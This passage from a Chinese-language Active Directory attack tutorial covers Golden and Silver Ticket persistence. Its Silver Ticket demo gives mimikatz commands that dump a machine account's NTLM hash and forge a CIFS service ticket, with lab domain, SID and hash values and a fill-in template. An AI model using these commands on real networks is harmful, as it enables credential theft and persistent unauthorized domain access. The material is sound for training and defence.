

### 4.1.2. 总结

黄金票据，为什么说是黄金票据，由于该票据是不受TGT生命周期限制的，默认情况下TGT票据默认是10小时、最多续订7天，而且这个票据可以一直保存，只要KRBTGT账户的密码不被修改，则该票据可以一直访问，同时利用上也简单。

不过黄金票据也属于二次攻击，第一次是为了拿到域控权限而去进行操作，而第二次攻击则是为了再次获取权限来进行的操作，同时黄金票据不单单可以生成krbtgt用户的TGT票据，还可以生成其他用户的，只不过，由于krbtgt用户的密码通常很少会去修改，所以间接性保证了票据的稳定性，如果是其他用户，可能几天改一次就导致票据失效。

## 4.2. 白银票据

黄金票据伪造的是TGT也就是门票发门票，而白银票据则是伪造ST也就是门票，白银票据的好处是不会经过KDC，从而更加的隐蔽，但是缺点也很明显，那就是只对部分服务起作用，例如：cifs（文件共享服务）、mssql、winrm（Windows远程管理）、DNS等。

利用条件：拿到目标机器的hash，也就是登陆的hash值，这里不一定是DC的，但是我们权限维持，尽量还是去拿DC的权限。

### 4.2.1. 操作演示

同样这里也是不使用CS来操作，直接在机器上操作，CS中是一样的。

#### 4.2.1.1. 获取域名与SID

这里和黄金票据是一样的，就不演示了。

```
whoami
net time /domain
whoami /all
```

#### 4.2.1.2. 获取DC账户NTLM

这里要注意是机器名，不要是administrator的账户。

```
privilege::debug
sekurlsa::logonpasswords  ##f0ff7995e6d3396e869a01e6b465eeaa
```



#### 4.2.1.3. 伪造用户名

这里的用户名随便伪造一个，我这里伪造成yuto吧。

- domain：域名
- sid：域环境下的SID，除去最后-的部分剩下的内容
- target：要访问的服务器，写FQDN
-  rc4：写的是目标主机的NTLM（主机名$对应NTLM）
-  service：要访问的资源类型
- user：伪造的用户
-  cifs：共享文件

其实这里可以看到导入后，确实有票据了，但是利用确实比较麻烦的，这里是将目标服务定位cifs，也就是说只有当目标主机上有cifs服务的时候才能进行利用。

```
kerberos::golden /user:yuto /domain:xiaodi.local /sid:S-1-5-21-1695257952-3088263962-2055235443 /target:DC /service:cifs /rc4:f0ff7995e6d3396e869a01e6b465eeaa /ptt

kerberos::golden /user:xxx用户名 /domain:域名 /sid:域sid /target:目标服务器 /service:目标服务 /rc4:目标服务器的hash  /ptt
```



### 4.2.2. 总结

白银票据可利用的局限性太多了。

## 4.3. 总结

关于黄金票据与白银票据的简要总结。

黄金票据：是抓取域控中ktbtgt账号的hash，来在client端生成一个TGT票据，那么该票据是针对所有机器的所有服务。

白银票据：实际就是在抓取到了域控服务hash的情况下，在client端以一个普通域用户的身份生成TGS票据，并且是针对于某个机器上的某个服务的，生成的白银票据,只能访问指定的target机器中指定的服务。
